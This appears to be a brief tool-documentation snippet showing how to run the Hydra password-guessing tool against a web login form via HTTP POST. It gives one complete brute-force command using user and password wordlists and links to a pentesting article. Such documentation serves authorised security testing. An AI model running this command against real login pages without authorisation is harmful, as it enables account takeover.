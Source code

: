 ### HTTP POST Form

Hydra supports attacking web applications that use POST requests for login forms. For example:

```bash
hydra -L users.txt -P passwords.txt http-post-form "/login.php:user=^USER^&password=^PASS^:Invalid Login" -V
```

This command targets a web page with a login form, sending POST requests with specified parameters.

More info:

```
https://www.blackhillsinfosec.com/hacking-with-hydra/
```

----

